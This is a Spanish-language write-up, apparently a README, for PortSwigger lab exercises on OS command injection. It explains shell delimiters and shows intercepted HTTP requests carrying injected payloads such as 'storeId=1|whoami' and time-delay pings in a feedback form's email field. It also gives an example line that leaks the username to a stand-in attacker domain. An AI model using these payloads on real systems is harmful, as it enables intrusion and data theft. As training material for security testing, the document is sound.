


<p align="center">
  <kbd><b>DRINUX CYBERSEGURIDAD</b></kbd>
  <h3 align="center">Auditor:Drx === Gustavo Gutierrez Sanchez</h3>
</p>

<div align="center">
<h1> Guia ejercios OS-Command-Injection </h1>
<p>
Esta guia principalmente se enfoca en el estudio de la vulnerabilidad os-command-injection de la plataforma https://portswigger.net/.
</p>
</div>

<h1>OS command injection</h1>

La inyeccion de comandos surge cuando nosostros rompemos la instruccion que se genera en el entorno del sistema operativo y empezamos a introducir nuestros comandos para esto testeamos con los siguientes delimitadores para romper la instruccion

<b>;</b> Punto y coma - Linux: Ejecuta el primer comando y sin importar si falla o no ejecuta el segundo

Ejemplo: ping -c 1 127.0.0.1 ; whoami

<b>&& AND</b>: Solo ejecuta el segundo comando si el primero se completo con exito

<b>|| OR</b>: Solo ejecuta el segundo comando si el primero fallo

<b>| Pipe</b>: Pasa la salida del primer comando como entrada del segundo

<b>Comillas invertidas o \$()</b>: Ejecucion en linea<br>
Ejecuta lo que este adentro primero y mete el resultado dentro del comando principal<br> 
Ejemplo: ping -c 1 $(whoami).atacker.com

<h2>Laboratorio 1</h2>

En este laboratorio lo que se nos solicita es poder ejecutar el comando **whoami** para saber el nombre de usuario actual.

Asi que con burpsuite interceptamos la peticion esto con el fin de buscar el parametro **stock** que es el que menciona el ejercicio.

```bash
POST /product/stock HTTP/2
Host: 0a61008804e3f212807eea4a0003005e.web-security-academy.net
Cookie: session=8PxVELlzvUaTHGM1vWI84G4tftiCbtjA
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: */*
Accept-Language: es-MX,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Referer: https://0a61008804e3f212807eea4a0003005e.web-security-academy.net/product?productId=4
Content-Type: application/x-www-form-urlencoded
Content-Length: 21
Origin: https://0a61008804e3f212807eea4a0003005e.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

productId=4&storeId=1
```
Ahora empezamos a testear el parametro con nuestros diferentes delimitadores para esto utilizamos la opcion de **Repeater** de burpsuite

```bash
POST /product/stock HTTP/2
Host: 0a61008804e3f212807eea4a0003005e.web-security-academy.net
Cookie: session=8PxVELlzvUaTHGM1vWI84G4tftiCbtjA
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: */*
Accept-Language: es-MX,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Referer: https://0a61008804e3f212807eea4a0003005e.web-security-academy.net/product?productId=4
Content-Type: application/x-www-form-urlencoded
Content-Length: 28
Origin: https://0a61008804e3f212807eea4a0003005e.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

productId=4&storeId=1|whoami
```


<h2>Laboratorio 2</h2>

En este laboratorio se nos presenta un ejercicio similar pero con la diferencia que no podemos visualizar el resultado en pantalla y la vulnerabilidad se encuentra en la funcion **feedback** para eso vamos a usar algun tipo de Delay para confirmar la existencia de la vulnerabilidad.

```bash
POST /feedback/submit HTTP/2
Host: 0a75006803aef804807cdf3c006700fd.web-security-academy.net
Cookie: session=NgtHApkbHLXlQ5ClHHqbKOItGwTA96IO
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: */*
Accept-Language: es-MX,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 94
Origin: https://0a75006803aef804807cdf3c006700fd.web-security-academy.net
Referer: https://0a75006803aef804807cdf3c006700fd.web-security-academy.net/feedback
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

csrf=1iNVkeiRIvmzSZ9iaEc1fcyM2JoFrkfP&name=qawsedrf&email=q%40gmail.com&subject=s&message=dfgg
```

Posterior a que interceptamos la peticion comenzamos testeando con nuestros delimitadores haber en que parametro existe la vulnerabilidad cabe recordar que a qui no se nos devuelve una respuesta por lo cual vamos a tener que hacer algun tipo de Delay.

Algunos ejemplos de uso:

```bash
|| ping -c 10 127.0.0.1 ||


& ping -c 10 127.0.0.1 &


|| timeout 10 ||

```

```bash
POST /feedback/submit HTTP/2
Host: 0a75006803aef804807cdf3c006700fd.web-security-academy.net
Cookie: session=NgtHApkbHLXlQ5ClHHqbKOItGwTA96IO
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: */*
Accept-Language: es-MX,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 121
Origin: https://0a75006803aef804807cdf3c006700fd.web-security-academy.net
Referer: https://0a75006803aef804807cdf3c006700fd.web-security-academy.net/feedback
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

csrf=1iNVkeiRIvmzSZ9iaEc1fcyM2JoFrkfP&name=dfgv&email=fvcf%40gmail.com||ping+-c+5+127.0.0.1||&subject=cvcfv&message=dcfcf

```

